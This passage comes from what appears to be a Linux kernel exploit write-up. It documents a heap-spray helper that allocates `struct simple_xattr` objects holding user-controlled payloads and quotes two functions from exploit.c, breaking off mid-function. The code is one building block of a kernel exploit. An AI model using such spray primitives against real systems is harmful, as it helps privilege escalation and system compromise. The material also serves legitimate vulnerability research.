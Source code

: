 - `path`: file path to allocate `struct simple_xattr` object. Each file has its own linked list of `struct simple_xattr` objects.
- `name`: unique per `struct simple_xattr` object on that file path.
- `payload`: contain user data.
- `size`: size of payload.

- [exploit.c#L245](./exploit.c#L245):

```c
bool simple_xattr_manager_append(
  struct simple_xattr_manager *m,
  const char *path,
  const char *name,
  const char *payload,
  int size)
{
  if (m->len >= m->max)
    return false;

  if (!create_file(path))
    return false;

  struct simple_xattr_attribute *attr = simple_xattr_attribute_alloc(path, name, payload, size);
  if (!attr)
    return false;

  m->attrs[m->len++] = attr;
  return true;
}
```

- [exploit.c#L202](./exploit.c#L202):

```c
struct simple_xattr_attribute *simple_xattr_attribute_alloc(
  const char *path,
  const char *name,
  const char *payload,
  int size)
{
  struct simple_xattr_attribute *attr = malloc(sizeof(*attr));
  if (!attr) {
    fprintf(stderr, "malloc attr");
    return NULL;
  }

  attr->path = strdup(path);
  if (!attr->path) {
    fprintf(stderr, "strdup(%s): %s\n", path, strerror(errno));
    goto err;
  }

  attr->name = strdup(name);
  if (!attr->name) {
    fprintf(stderr, "strdup(%s): %s\n", name, strerror(errno));
    goto err1;
  }

  attr->payload = malloc(size);
  if (!attr->payload) {
    perror("malloc payload");
    goto err2;
  }

  attr->size = size;
  memcpy(attr->payload, payload, size);
```